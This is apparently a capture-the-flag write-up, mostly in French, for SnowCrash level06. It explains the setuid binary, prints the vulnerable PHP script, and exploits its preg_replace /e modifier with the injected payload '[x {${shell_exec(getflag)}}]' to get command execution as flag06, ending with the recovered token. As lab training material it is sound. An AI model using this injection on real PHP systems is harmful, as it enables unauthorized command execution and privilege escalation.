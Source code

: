 # Level06

</br></br>

## ls -l

```zsh
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Les deux fichiers sont exécutables et lisibles
Dans le fichier level06, rws signifie lecture-écriture-exécution + setuid. Cela signifie que lorsque le fichier est exécuté, l'utilisateur exécutant a les privilèges du propriétaire du fichier (flag06). Ainsi, lorsque l'utilisateur level06 exécute le fichier level06, il aura les privilèges de l'utilisateur flag06 lors de son exécution.

</br></br>

## d'exécution level06

```zsh
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
</br></br>

## level06.php

```php
level06@SnowCrash:~$ cat ./level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
</br></br>

## regex and shell_exec
reg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)

regex : (\[x (.*)\])

#To match the regex our string must start by "[x" and finish by "]"

[x {${shell_exec(getflag)}}]

</br></br>

## make file 
```zsh
level06@SnowCrash:~$ mkdir /tmp/level06
level06@SnowCrash:~$ echo '[x {${shell_exec(getflag)}}]' > /tmp/level06/flag06
```

</br></br>

## execute level06 with file flag06
```zsh
level06@SnowCrash:~$ ./level06 /tmp/level06/flag06 
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
level06@SnowCrash:~$ su level07
Password: 
```
